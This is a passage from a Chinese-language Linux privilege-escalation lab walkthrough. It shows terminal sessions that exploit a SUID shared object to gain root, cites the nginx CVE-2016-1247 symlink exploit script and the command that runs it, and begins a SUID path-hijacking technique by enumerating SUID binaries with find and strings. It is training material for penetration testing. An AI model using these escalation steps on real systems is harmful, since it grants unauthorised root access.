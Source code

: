 ```

### 6.执行SUID文件，提权到root
```
TCM@debian:~/.config$ /usr/local/bin/suid-so
Calculating something, please wait...
bash-4.1# id
uid=1000(TCM) gid=1000(user) euid=0(root) egid=50(staff) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
bash-4.1# whoami
root
```

# 10. SUID (Symlinks)

这个提权需要满足：
> 1. sudo是SUID
> 2. nginx版本低于1.6.2-5+deb8u3

依赖攻击脚本：[nginxed-root.sh](https://github.com/xl7dev/Exploit/blob/master/Nginx/nginxed-root.sh)
CVE序列号：CVE-2016-1247

初始shell是：```www-data```

执行攻击：
>/nginxed-root.sh /var/log/nginx/error.log

等一段时间，提权到root

# 11. SUID（环境变量 #1）

这个属于路径+SUID提权。

## 如何利用？

### 1.查找所有SUID
> find / -type f -perm -04000 -ls 2>/dev/null

```
TCM@debian:/tmp$ find / -type f -perm -04000 -ls 2>/dev/null
816762    8 -rwsr-sr-x   1 root     staff        6883 May 14  2017 /usr/local/bin/suid-env
```

### 2.strings命令查看suid-env

```
TCM@debian:/tmp$ strings /usr/local/bin/suid-env
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
```

```
